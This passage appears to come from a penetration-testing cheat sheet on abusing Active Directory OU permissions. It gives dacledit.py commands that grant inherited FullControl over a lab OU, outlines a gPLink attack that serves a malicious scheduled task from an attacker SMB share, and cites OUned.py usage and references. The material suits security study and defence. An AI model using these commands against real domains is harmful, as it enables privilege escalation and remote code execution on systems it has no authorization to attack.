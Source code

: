 A user having the `GenericAll` right (and thus `WriteDACL` permissions) over an OU could add a `FullControl` ACE to the OU and specify that this ACE should be inherited, which will effectively lead to the compromise of all child objects since they will inherit said ACE.

* Grant `Full Control` on **SERVERS** OU

 ```ps1
 dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal 'username' -target-dn 'OU=SERVERS,DC=lab,DC=local' 'lab.local'/'username':'Password1'
 ```

* Verify that we have `Full Control` ACL on **AD01-SRV1** inside **SERVERS**

 ```ps1
 dacledit.py -action 'read' -principal 'username' -target-dn 'CN=AD01-SRV1,OU=SERVERS,DC=lab,DC=local' 'lab.local'/'username':'Password1'
 ```

:warning: ACE inheritance from parent objects is disabled for `adminCount=1`

### Privileged objects

**Requirements**:

* `GenericWrite` OR `Manage Group Policy` links
* Create a machine account
* Add new DNS records

**Attack's Flow**: gPLink -> Attacker GPC FQDN -> GPT configuration files in Attacker SMB share -> execute a malicious scheduled task

* Edit the `gPLink` value to include a GPC FQDN pointing the attacker machine
* Create a fake LDAP server mimicking the real one, but with a custom GPC
* GPC's gPCFileSysPath value is pointing to the attacker SMB share
* The SMB share is serving GPT configuration files including a malicious scheduled task

**Exploit**:

Check this [blog post from Synacktiv](https://www.synacktiv.com/publications/ounedpy-exploiting-hidden-organizational-units-acl-attack-vectors-in-active-directory) to correctly setup all the requirements for this attack to succeeded.

```ps1
sudo python3 OUned.py --config config.ini
sudo python3 OUned.py --config config.example.ini --just-coerce
```

## References

* [ACE to RCE - @JustinPerdok - July 24, 2020](https://sensepost.com/blog/2020/ace-to-rce/)
* [Access Control Entries (ACEs) - The Hacker Recipes - @_nwodtuhs](https://www.thehacker.recipes/active-directory-domain-services/movement/abusing-aces)
* [Escalating privileges with ACLs in Active Directory - April 26, 2018 - Rindert Kramer and Dirk-jan Mollema](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/)
* [Training - Attacking and Defending Active Directory Lab - Altered Security](https://www.alteredsecurity.com/adlab)
* [OU having a laugh? - Petros Koutroumpis - 6 November, 2019](https://labs.withsecure.com/publications/ou-having-a-laugh)
* [OUNED.PY: EXPLOITING HIDDEN ORGANIZATIONAL UNITS ACL ATTACK VECTORS IN ACTIVE DIRECTORY - Quentin Roland - 19/04/2024](https://www.synacktiv.com/publications/ounedpy-exploiting-hidden-organizational-units-acl-attack-vectors-in-active-directory)
